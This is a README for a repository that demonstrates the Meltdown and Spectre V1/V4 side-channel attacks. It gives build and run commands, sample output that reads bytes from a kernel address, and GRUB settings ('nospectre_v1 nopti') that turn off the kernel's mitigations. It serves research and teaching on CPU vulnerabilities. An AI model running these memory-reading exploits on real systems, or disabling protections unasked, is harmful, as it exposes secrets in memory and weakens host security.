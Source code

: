 # Meltdown / Spectre
This repository contains code that demonstrates how Meltdown and Spectre vulnerabilities work and shows the differences between them. It also contains measurement functions for comparing results.
## Meltdown [(CVE-2017-5754)](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
The Meltdown implementation contains three types of malicious payload that were introduced in the original Meltdown [repository](https://github.com/IAIK/meltdown).
- meltdown
- meltdown_nonull
- meltdown_fast
#### Build
```
make
```
or
```
make meltdown
```
#### Run
```
./meltdown [address] [length]
```
```
./meltdown_nonull [address] [length]
```
```
./meltdown_fast [address] [length]
```
Run examples without arguments to read data from local process memory.
## Spectre Variant 1 [(CVE-2017-5753)](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
Spectre implementation from the original Spectre [paper](https://spectreattack.com/spectre.pdf).
#### Build
```
make
```
or
```
make spectre_v1
```
#### Run
```
./spectre_v1 [address] [length]
```
Run example without arguments to read data from local process memory.
## Spectre Variant 4 [(CVE-2018-3639)](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
Implementation of the Speculative Store Bypass, aka Spectre V4. This vulnerability works worse than Meltdown or Spectre V1 and doesn't work under VW. Code contains two variants of the malicious payload. The first variant is written in C and its instructions are compiler-dependent. For example, GCC does unnecessary register manipulation. The second variant is written in assembly language and remains unmodified after compilation.
- spectre_v4
- spectre_v4_asm
#### Build
```
make
```
or
```
make spectre_v4
```
#### Run
```
./spectre_v4 [address] [length]
```
```
./spectre_v4_asm [address] [length]
```
Run examples without arguments to read data from local process memory.
## Testing
The Meltdown repository contains [tools](https://github.com/IAIK/meltdown/blob/master/README.md#demo-4-read-physical-memory-physical_reader) that can be used to test these vulnerabilities on Linux systems. Use `secret` tool to put the secret string into memory. Use `direct_physical_map.sh` script to extract the physical memory offset from the kernel.
### Results
The results table contains information for all bytes read, including: virtual address, status, 1st and 2nd best guesses with their scores, number of attempts, number of zero checks.
```
./meltdown 0xffff97480b415188 50
CVE-2017-5754: Meltdown (null)
Flush+Reload: 323 cycles, Reload only: 36 cycles
Flush+Reload threshold: 131 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     3    -       -   945     5
0xffff97480b415189   Success 0x6F o     3    -       -     3     -
0xffff97480b41518a   Success 0x6E n     3    -       -   215     -
0xffff97480b41518b   Success 0x67 g     3    -       -     3     -
0xffff97480b41518c   Success 0x72 r     3    -       -     3     -
0xffff97480b41518d   Success 0x61 a     3    -       -     4     -
...
```
```
./meltdown_fast 0xffff97480b415188 50
CVE-2017-5754: Meltdown (fast)
Flush+Reload: 397 cycles, Reload only: 38 cycles
Flush+Reload threshold: 157 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     5 0x58 X     1   776   757
0xffff97480b415189      Zero 0x6F o     5 0xD0       1   901   797
0xffff97480b41518a      Zero 0x6E n     5 0x43 C     1   507   395
0xffff97480b41518b   Success 0x67 g     3    -       -   147     -
0xffff97480b41518c      Zero 0x72 r     3 0x5D ]     1  1000   862
0xffff97480b41518d      Zero 0x61 a     3    -       -   546   115
...
```
```
./spectre_v4 0xffff97480b415188 50
CVE-2018-3639: Spectre Variant 4 (compiler-dependent)
Flush+Reload: 379 cycles, Reload only: 40 cycles
Flush+Reload threshold: 153 cycles
Reading 50 bytes in 4000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188   Unclear 0xFF       1 0xF5       1  4000     -
0xffff97480b415189   Unclear 0xB7       1 0x16       1  4000     -
0xffff97480b41518a   Unclear 0x8E       1 0x79 y     1  4000     -
0xffff97480b41518b Undefined    -       -    -       -  4000     -
0xffff97480b41518c   Unclear 0xEB       1 0x75 u     1  4000     -
0xffff97480b41518d   Unclear 0xD4       1 0xCA       1  4000     -
...
```
Byte status can be one of:
- `Success` - byte was detected successfully `(score_1 >= score_2 * 2)`
- `Unclear` - the result is unclear, check also the second guess
- `Zero` - the result is defined, but a zero byte with best score was detected (see ZEROS column). Read more about this case in the original Meltdown [paper](https://meltdownattack.com/meltdown.pdf)
- `Undefined` - no results, byte undefined
## Implementation for Windows
Spectre V1 and V4 examples can be compiled for Windows using the MinGW compiler. While Meltdown implementation uses POSIX signals that are not fully supported on Windows.
#### Build
```
make win
```
#### Run
```
spectre_v1.exe [address] [length]
```
```
spectre_v4.exe [address] [length]
```
```
spectre_v4_asm.exe [address] [length]
```
Run examples without arguments to read data from local process memory.
## Additional Information
### Check Meldown and Spectre protection on Linux
Run commands:
```
$ cat /sys/devices/system/cpu/vulnerabilities/meltdown
Vulnerable    
$ cat /sys/devices/system/cpu/vulnerabilities/spectre_v1
Vulnerable: __user pointer sanitization and usercopy barriers only; no swapgs barriers
```
### Disable Meldown and Spectre protection on Linux
Add or change this line in the file `/etc/default/grub`
```
GRUB_CMDLINE_LINUX="nospectre_v1 nopti"
```
Then run command:
```
sudo update-grub
```
## References
* [Spectre Paper](https://spectreattack.com/spectre.pdf)
* [Meltdown Paper](https://meltdownattack.com/meltdown.pdf)
* [Meltdown Source Code](https://github.com/IAIK/meltdown)
* [CVE-2017-5715: Spectre Variant 2 - Branch Target Injection](https://nvd.nist.gov/vuln/detail/CVE-2017-5715)
* [CVE-2017-5753: Spectre Variant 1 - Bounds Check Bypass](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
* [CVE-2017-5754: Meltdown Variant 3 - Rogue Data Cache Load](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
* [CVE-2018-3639: Spectre Variant 4 - Speculative Store Bypass](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
* [CVE-2018-3640: Meltdown Variant 3a - Rogue System Register Read](https://nvd.nist.gov/vuln/detail/CVE-2018-3640)
